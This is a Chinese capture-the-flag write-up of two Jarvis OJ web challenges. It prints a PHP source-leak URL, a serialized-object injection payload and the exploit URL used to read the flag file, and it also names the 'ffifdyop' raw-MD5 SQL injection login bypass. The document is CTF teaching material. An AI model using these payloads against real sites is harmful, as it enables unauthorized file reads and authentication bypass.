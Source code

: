 # 神盾局的秘密
访问图片链接
```bash
http://web.jarvisoj.com:32768/showimg.php?img=aW5kZXgucGhw
```
得到
```bash
<?php 
	require_once('shield.php');
	$x = new Shield();
	isset($_GET['class']) && $g = $_GET['class'];
	if (!empty($g)) {
		$x = unserialize($g);
	}
	echo $x->readfile();
?>
```
将shield.php精心base64加密，接在img=后面，访问以下连接
```bash
http://web.jarvisoj.com:32768/showimg.php?img=c2hpZWxkLnBocA==
```
得到
```bash

<?php
	//flag is in pctf.php
	class Shield {
		public $file;
		function __construct($filename = '') {
			$this -> file = $filename;
		}
		
		function readfile() {
			if (!empty($this->file) && stripos($this->file,'..')===FALSE  
			&& stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
				return @file_get_contents($this->file);
			}
		}
	}
?>

```
使用以下的脚本
```bash
<?php
	class Shield {
		public $file = "pctf.php";
	}
	$qianye = new Shield();
	print_r(serialize($qianye));
?>
```
访问以下链接，查看源码，得到flag
```bash
http://web.jarvisoj.com:32768/index.php?class=O:6:%22Shield%22:1:{s:4:%22file%22;s:8:%22pctf.php%22;}

```
# Login
[SQL injection with raw MD5 hashes](https://joychou.org/web/SQL-injection-with-raw-MD5-hashes.html)</br>
bp抓包，在应答包中发现`Hint: "select * from `admin` where password='".md5($pass,true)."'"`
在之前的做题中遇到过。直接提交`ffifdyop`,得到flag
